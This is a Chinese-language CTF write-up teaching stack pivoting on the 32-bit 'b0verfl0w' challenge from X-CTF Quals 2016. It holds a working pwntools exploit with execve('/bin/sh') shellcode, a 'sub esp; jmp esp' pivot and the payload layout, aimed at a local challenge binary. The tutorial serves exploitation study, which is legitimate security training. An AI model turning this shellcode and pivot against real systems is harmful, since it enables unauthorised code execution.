 > 参考资料：[https://wiki.x10sec.org/pwn/stackoverflow/others/#stack-pivoting](https://wiki.x10sec.org/pwn/stackoverflow/others/#stack-pivoting)
>
> [https://www.cnblogs.com/17bdw/p/7898905.html](https://www.cnblogs.com/17bdw/p/7898905.html)
>

# 1、介绍
我们首先介绍一下Stack pivoting的含义：

正如它的中文意思一样，该技巧就是劫持栈指针指向攻击者所能控制的内存处，然后再在相应的位置进行 ROP。一般来说，我们可能在以下情况需要使用 stack pivoting：

+ 可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链
+ 开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。
+ 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用

此外，利用 stack pivoting 有以下几个要求

+ 可以控制程序执行流。
+ 可以控制 sp 指针。一般来说，控制栈指针会使用 ROP，常见的控制栈指针的 gadgets 一般是

> <font style="color:#C2185B;">pop</font> <font style="color:#3E61A2;">rsp</font><font style="color:#A61717;">/</font><font style="color:#3E61A2;">esp</font>
>

当然，还会有一些其它的姿势。比如说 libc_csu_init 中的 gadgets，我们通过偏移就可以得到控制 rsp 指针。上面的是正常的，下面的是偏移的。

```bash
gef➤  x/7i 0x000000000040061a
0x40061a <__libc_csu_init+90>:  pop    rbx
0x40061b <__libc_csu_init+91>:  pop    rbp
0x40061c <__libc_csu_init+92>:  pop    r12
0x40061e <__libc_csu_init+94>:  pop    r13
0x400620 <__libc_csu_init+96>:  pop    r14
0x400622 <__libc_csu_init+98>:  pop    r15
0x400624 <__libc_csu_init+100>: ret    
gef➤  x/7i 0x000000000040061d
0x40061d <__libc_csu_init+93>:  pop    rsp
0x40061e <__libc_csu_init+94>:  pop    r13
0x400620 <__libc_csu_init+96>:  pop    r14
0x400622 <__libc_csu_init+98>:  pop    r15
0x400624 <__libc_csu_init+100>: ret
```

此外，还有更加高级的 fake frame。

+ 存在可以控制内容的内存，一般有如下
+ bss 段。由于进程按页分配内存，分配给 bss 段的内存大小至少一个页(4k，0x1000)大小。然而一般bss段的内容用不了这么多的空间，并且 bss 段分配的内存页拥有读写权限。
+ heap。但是这个需要我们能够泄露堆地址。

# 2、示例
以CTF-Wiki上的“X-CTF Quals 2016 - b0verfl0w”为例进行讲解。

> [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF%20Quals%202016%20-%20b0verfl0w](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF%20Quals%202016%20-%20b0verfl0w)
>

下载文件，检查一下文件的保护情况：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598839836528-8c280f40-aa0d-444c-b30f-502c5ba02b10.png)

可以看到基本上没有开任何的保护，32位程序。

**<font style="color:#F5222D;">由于程序并没有开启NX保护，因此我们可以向栈上注入shellcode</font>**

运行下程序：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598839914821-cdd43974-c07d-40ce-93af-644f881b52f2.png)

什么都没有，在IDA中进行查看，来到vul函数

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598839958920-9b2c7294-114a-41b6-8a7b-d3aa391a8fdd.png)

先来测一下栈偏移，得到无效地址![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598840053650-c75667a6-a612-4636-97ca-bd9d7c87ea1f.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598840097269-4b2f3247-b6c3-4d09-a619-15913144f688.png)

测出来的栈偏移为36，也就是说输入36个字符可以覆盖到返回地址，输入32个字节可以覆盖到ebp（栈底）

我们看一下vul函数中的 fgets(&s, 50, stdin);

fgets读入了50个字符，我们能控制的大小为50-36=14个字节，emmm有点小了。

先将exp贴出来：

```python
#coding:utf8
from pwn import *
context.log_level = 'debug'

sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

#print shellcode_x86
sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
#print len(payload)
sh.sendline(payload)
sh.interactive()
```

脚本上来就是shellcode的内容，这是什么意思呢？我们利用python的capstone模块将字节码转换为汇编代码：

> kali自带capstone模块
>

```python
#!/usr/bin/env python
from capstone import *
#python2

shellcode_x86= ""
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

md = Cs(CS_ARCH_X86, CS_MODE_32) #初始化类，给两个参数（硬件架构和硬件模式）
for i in md.disasm(shellcode_x86, 0x00): #disasm 反汇编这段HEX, 它的参数是shellcode和起始地址。
	print "0x%x:\t%s\t%s" %(i.address, i.mnemonic, i.op_str) #打印地址和操作数。
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598840903854-3b317280-1899-4ac9-9918-ffc64fdab79f.png)

其中0x68732f2f和0x6e69622f内容如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598840980038-4ecf23ad-ccef-4bb8-9faf-17acb8eff1f9.png)

mov al,0xb：其中的0xb为Linux的系统调用号：

> [https://www.yuque.com/cyberangel/rg9gdm/gvmr0g](https://www.yuque.com/cyberangel/rg9gdm/gvmr0g)
>

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598841229242-00fed68d-6d57-4949-81f6-c3dff53e6f86.png)

然后利用int 0x80系统中断来执行execve。

由于所能溢出的字节只有 50-0x20-4=14 个字节，所以我们很难执行一些比较好的 ROP。这里我们就考虑 stack pivoting 。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode 并执行。基本利用思路如下

+ 利用栈溢出布置 shellcode
+ 控制 eip 指向 shellcode处

> 我们payload的长度为44字节，其中的shellcode_x86长度为22字节，因此我们不能直接将shellcode_x86注入到栈中，否则会破环栈
>

第一步，还是比较容易地，直接读取即可，~~但是由于程序本身会开启 ASLR 保护，所以我们很难直接知道shellcode 的地址。但是栈上相对偏移是固定的，~~所以我们可以利用栈溢出对 esp 进行操作，使其指向 shellcode处，并且直接控制程序跳转至 esp处。那下面就是找控制程序跳转到 esp 处的 gadgets 了。

我们搜索一下可以跳转到esp的gadgets：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598841621528-0d30a21a-d246-465f-8b3a-619e55916bfd.png)

其中jmp esp就是我们想要的东西，因此shellcode的布局如下：

> shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
>

其中：

> + size(shellcode+padding)=0x20
> + size(fake ebp)=0x4
> + size(0x08048504)=0x4
>

所以我们最后一段需要执行的指令就是

> <font style="color:#C2185B;">sub</font> <font style="color:#E74C3C;">0x28</font>,<font style="color:#3E61A2;">esp</font>
>
> <font style="color:#C2185B;">jmp</font> <font style="color:#3E61A2;">esp</font>
>

不明白？画个图就懂了：

![](https://cdn.nlark.com/yuque/0/2020/jpeg/574026/1598842619132-5f654770-beca-438c-97a8-4edaf44d3720.jpeg)

我们利用fgets读入payload，利用shellcode和padding（填充物）将栈填满。

当eip执行完main函数结尾的leave指令（mov esp,ebp；pop ebp），此时esp指向ret，ebp指向虚假地址bbbb。

然后执行ret指令：pop eip，eip去执行jmp的内容，eip、esp指向sub esp;jmp esp

执行结果如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598848256705-6fa7644d-c732-4f27-97f5-3f19c4ac0a48.png)

eip执行sub esp,0x28；jmp esp，执行结果如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598848608470-63e86326-f014-4d1e-9e8a-72b95f9320e5.png)

因此，程序开始执行shellcode。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598849148815-13ba9f01-e2ce-4eab-adb8-82478ead2157.png)

getshell！



